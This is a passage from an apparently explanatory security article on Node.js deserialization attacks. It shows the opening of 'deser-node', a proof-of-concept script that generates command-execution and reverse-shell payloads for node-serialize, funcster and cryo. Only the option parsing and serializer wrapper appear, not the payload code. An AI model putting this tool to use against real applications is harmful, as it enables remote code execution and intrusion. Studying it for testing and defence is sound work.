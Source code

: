 #### Generate payloads dynamically: deser-node

As for other languages, it would be handy to have a tool to automatically generate suitable payloads. In order to do that, the following script was created, named **desert-node**. The tool can be used to generate different payloads for the libraries prensented in this article. An updated version of the tool can also be downloaded [here](https://github.com/klezVirus/deser-node).

```js
/**
* This script provides a simple cli to generate payloads for:
* - node-serialize
* - funcster
* - cryo
*
* It's not meant to be a complete tool, but just a proof of concept
**/
var fs = require('fs');

var argv = require('yargs')
    .usage('Usage: $0 -f [file] [options]')
    .alias('f', 'file')
    .alias('m', 'mode')
    .alias('s', 'serializer')
    .alias('v', 'vector')
    .alias('c', 'command')
    .alias('H', 'lhost')
    .alias('P', 'lport')
    .alias('t', 'target')
    .alias('p', 'cryoprototype')
    .alias('h', 'help')
    .choices('s', [, 'ns', 'fstr', 'cryo'])
    .choices('m', ['serialize', 'deserialize'])
    .choices('v', ['rce', 'rshell'])
    .choices('t', ['linux', 'windows'])
    .default('t', 'windows')
    .default('p', 'toString')
    .default('s', 'ns')
    .default('m', 'serialize')
    .describe('f','Input file')
    .describe('m','Operational mode, may be serialize or deserialize')
    .describe('s','The serializer module to use')
    .describe('v','The vector is command exe or reverse shell')
    .describe('c','The command to execute (-v rce must be used)')
    .describe('e','Charencode the payload (not implemented yet)')
    .describe('H','Local listener IP (-v rshell must be used)')
    .describe('P','Local listener PORT (-v rshell must be used)')
    .describe('t','Target machine OS, may be Win or Linux')
    .demandOption(['f'])
    .showHelpOnFail(false, "Specify --help for available options")
    .argv;

var payload;

// Serialize function wrap
function serialize(serializer, object) {
    if (serializer == "fstr") {
        var serialize = require('funcster');
        return JSON.stringify(serialize.deepSerialize(object),null,0);
    } else if (serializer == "ns") {
        return require('node-serialize').serialize(object);
    } else if (argv.serializer == "cryo") {
        return require('cryo').stringify(object);
    }
}
```
